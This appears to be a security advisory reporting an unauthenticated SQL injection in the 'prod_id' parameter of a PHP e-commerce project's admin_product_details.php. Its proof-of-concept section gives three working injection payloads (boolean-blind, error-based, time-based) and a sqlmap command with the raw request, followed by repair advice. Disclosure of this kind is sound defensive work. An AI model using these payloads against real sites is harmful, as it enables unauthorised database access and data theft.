


# E-Commerce Website Project V1.0 admin_product_details.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- E-Commerce Website

## Vendor Homepage

- [E-Commerce Website In PHP With Source Code - Source Code & Projects](https://code-projects.org/e-commerce-website-in-php-with-source-code/)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- mel0dy

## VERSION(S)

- V1.0

## Software Link

- [E-Commerce Website In PHP With Source Code - Source Code & Projects](https://code-projects.org/e-commerce-website-in-php-with-source-code/)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'admin_product_details.php' file of the 'E-Commerce Website' project. The reason for this issue is that attackers inject malicious code from the parameter "prod_id" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "E-Commerce Website", discovered a critical SQL injection vulnerability in the "admin_product_details.php" file. This vulnerability stems from insufficient user input validation of the 'prod_id' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- time-based blind
- boolean-based blind
- error-based

## Vulnerability location:

- 'prod_id' parameter

## Payload:

```
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: http://10.151.167.210:8887/Electricks-shop/pages/admin_product_details.php?prod_id=1' AND 8492=(SELECT (CASE WHEN (8492=8492) THEN 8492 ELSE (SELECT 4602 UNION SELECT 6755) END))-- -
    Vector: AND [RANDNUM]=(SELECT (CASE WHEN ([INFERENCE]) THEN [RANDNUM] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))[GENERIC_SQL_COMMENT]

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: http://10.151.167.210:8887/Electricks-shop/pages/admin_product_details.php?prod_id=1' OR (SELECT 8053 FROM(SELECT COUNT(*),CONCAT(0x7178706a71,(SELECT (ELT(8053=8053,1))),0x7171786a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- jgRm
    Vector: OR (SELECT [RANDNUM] FROM(SELECT COUNT(*),CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]',FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://10.151.167.210:8887/Electricks-shop/pages/admin_product_details.php?prod_id=1' AND (SELECT 5110 FROM (SELECT(SLEEP(5)))dWVF)-- ajZx
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
```



## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
GET /Electricks-shop/pages/admin_product_details.php?prod_id=1* HTTP/1.1
Host: 10.151.167.210:8887
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=860bf9sue3vca48n2eir3ln4j7
Connection: keep-alive
```

# Attack results



# Suggested repair


1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.